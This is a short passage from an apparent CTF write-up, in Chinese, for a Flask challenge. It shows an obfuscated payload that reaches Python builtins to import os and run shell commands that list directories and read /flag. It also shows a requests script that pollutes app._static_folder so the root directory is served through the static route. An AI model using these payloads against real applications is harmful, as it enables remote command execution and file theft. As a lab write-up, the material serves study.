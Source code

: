 ```python
self['__in''it__']['__glo''bals__']['__buil''tins__']['__impo''rt__']('o''s').popen('ls;ls /;nl /flag').read()
```

![9](/medias/show-DSB/9.png)

出题人认为这题出现了非预期，没有考虑到`_static_folder`的权限利用。可以污染`app._static_folder`，改变static静态目录下的实际目录，定位到根目录，这样可以直接访问flag

```python
import requests
import json

url = "http://f5b184ba-4853-42a4-bf88-8c65497fc62a.challenge.ctf.show/register"

payload={
    "username": "4",
    "password": "4",
    "__init__": {
        "__globals__":{
            "app":{
                "_static_folder":"/"
            }
        }
    }
}
r = requests.post(url=url, json=payload)
print(r.text)
```
